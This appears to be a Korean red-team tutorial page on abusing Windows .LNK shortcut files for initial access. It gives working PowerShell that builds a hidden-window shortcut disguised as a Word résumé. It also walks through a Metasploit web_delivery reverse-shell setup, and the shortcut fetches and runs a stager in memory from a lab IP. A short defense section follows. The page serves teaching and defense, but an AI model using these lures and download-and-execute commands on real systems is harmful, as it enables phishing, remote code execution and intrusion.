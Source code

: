 # LNK

윈도우의 바로가기 파일은 `.LNK` 확장자를 갖고 있으며, 최대 255자의 `targetpath` 파라미터와 4096자의 `argument` 를 실행할 수 있다. 초기 침투 시 단일 파일로 사용될 수도 있지만, 짧은 커맨드 길이 때문에 다른 페이로드들을 실행시키는데 더 자주 사용된다.&#x20;

수 많은 조합들이 있지만, 자주 사용 되는 조합은 다음과 같다.&#x20;

* lnk -> Powershell -> 인 메모리 실행&#x20;
* lnk -> .dll download -> DLL side loading / DLL hijacking / LOLBAS with regsvr32.dll&#x20;
* lnk -> Powershell -> HTA&#x20;
* lnk -> .exe + DLL sideloading&#x20;

DLL 사이드로딩과 관련된 APT 29의 LNK + DLL Sideloading 기법은 다음 페이지에서 볼 수 있다 (TODO)&#x20;

### 실습&#x20;

다음은 `cmd.exe` 바이너리를 실행하는 간단한 LNK 파일을 만드는 파워쉘 명령어다.&#x20;

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\opt\lnk\Choi_Resume_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start cmd.exe"
$link.save()
```

마이크로소프트 워드의 아이콘을 갖은 LNK 파일을 생성해낸다. 오른쪽 클릭해서 shortcut을 확인해보면 `Target` 에 위에서 만든 페이로드인 `%windir%/system32/cmd.exe` 를 실행한다.&#x20;

![](<../../.gitbook/assets/image (10).png>)

### 실습 - 2&#x20;

다음은 파워쉘 페이로드를 가져와 메모리상에서 실행하는 방법이다. 악용을 막기 위해 AMSI bypass 등은 실행하지 않는다. 먼저 개념 증명용 페이로드를 위해 메타스플로잇을 사용한다.&#x20;

```
msfconsole 
use exploit/multi/script/web_delivery
set pyaload windows/x64/meterpreter/reverse_https 
set lhost <ip> 
set lport <port> 
exploit 

[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.40.182:443
[*] Using URL: http://192.168.40.182:8080/3XQSv3
[*] Server started.
[*] Run the following command on the target machine:
msf6 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -e <....>
```

웹 딜리버리를 실행시키면 스테이저 파일이 호스팅된 URL이 나온다. 위 예시의 경우 `http://192.168.40.182:8080/3XQSv3` 여기에 스테이저가 호스팅 되어 있다. 따라서 해당 파일을 메모리상에서 실행하는 LNK 파일을 만들어준다.&#x20;

```
$command = 'iex(new-object net.webclient).downloadstring("http://192.168.40.182:8080/3XQSv3")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\testdefender\Choi_Resume.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "-Nop -w hidden -enc $($encodedCommand)"
$link.save()
```

작전 보안과 방어 우회를 위해서는 호스팅 되어있는 스테이저 파일에 AMSI 우회 코드를 넣어주면 된다. 이 실습은 개념 증명용이니 넘어간다. 해당 LNK 파일을 만들고 실행하면 리버스 쉘을 받을 수 있다.&#x20;



### 대응 방안&#x20;

LNK 파일은 윈도우의 기본적인 바로가기 파일이기 때문에 기술적으로 비활성화 시킬수는 없다. 단, LNK 파일의 `targetPath` 과 `arugments` 에 들어가는 페이로드는 엔드포인트의 디스크위에 쓰일 수 밖에 없다. 따라서 AV/EDR 등의 엔드포인트 방어 솔루션들이 LNK 파일을 잘 분석한다면 충분히 막을 수 있을 것이다. 실제로 간단한 파워쉘 페이로드를 실행시키려고 하면 왠만한 페이로드들은 모두 막힌다.&#x20;

엔드 유저의 입장에서는 LNK 파일에 주의한다. LNK 파일은 기본적으로 확장자가 보이지 않기 때문에 파일 익스플로러에서 `Shortcut` 혹은 `바로가기` 가 있다면 오른쪽 클릭을 해서 `TargetPath` 를 한 번 살펴보는 습관을 들인다.&#x20;

![](<../../.gitbook/assets/image (7).png>)



### 레퍼런스&#x20;

{% embed url="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/rise-of-lnk-shortcut-files-malware/" %}

{% embed url="https://docs.google.com/viewerng/viewer?url=https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}
